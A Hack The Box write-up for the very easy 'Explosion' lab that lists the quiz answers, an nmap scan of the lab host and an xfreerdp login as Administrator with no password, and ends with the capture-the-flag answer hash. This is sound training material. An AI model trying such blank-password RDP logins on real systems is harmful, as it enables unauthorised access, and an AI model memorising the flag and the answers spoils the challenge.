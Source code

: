 # Explosion
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Explosion
* Topic: [[Account Misconfiguration]] [[xfreerdp]]
* Difficulty: Very easy
* Date: 15-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym RDP stand for?
 - **remote desktop protocol**
2. What is a 3-letter acronym that refers to interaction with the host through a command line interface?
- **cli**
3. What about graphical user interface interactions? 
- **gui**
4. What is the name of an old remote access tool that came without encryption by default? 
- **telnet**
5. What is the concept used to verify the identity of the remote host with SSH connections?
- **public-key cryptography**
6. What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?
- **rdesktop**
7. What is the name of the service running on port 3389 TCP? 
- **ms-wbt-server**
8. What is the switch used to specify the target host's IP address when using xfreerdp?
- **/v:**

---
## Flag:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.92.232`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.92.232 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:50 EDT
Nmap scan report for 10.129.92.232
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-15T17:50:27+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-04-14T17:49:40
|_Not valid after:  2022-10-14T17:49:40
|_ssl-date: 2022-04-15T17:50:35+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-15T17:50:31
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 22.03 seconds
```

We can use [xfreerdp](https://linux.die.net/man/1/xfreerdp) to connect to the host.

Command:

`xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore`

`/v:`: The host we want to connect to.

`/u:`: The user we want to log in as.

`/cert:`: Ignore all kind of certificates.

```console
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore
Password: 
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[10:18:16:733] [89007:89008] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[10:18:19:505] [89007:89008] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
^C[10:21:06:676] [89007:89007] [ERROR][com.freerdp.utils] - Caught signal 'Interrupt' [2]
[10:21:06:677] [89007:89007] [ERROR][com.freerdp.utils] - 0: /lib/x86_64-linux-gnu/libwinpr2.so.2(winpr_backtrace+0x50) [0x7f32435efc30]

(...)
```

A new window appears. We've connected to a computer running Windows Server 2019.

The flag is visible on the desktop.

![](Pasted%20image%2020220415162356.png)

**Flag:** `951fa96d7830c451b536be5a6be008a0`

---
**Tags:** [[HackTheBox]]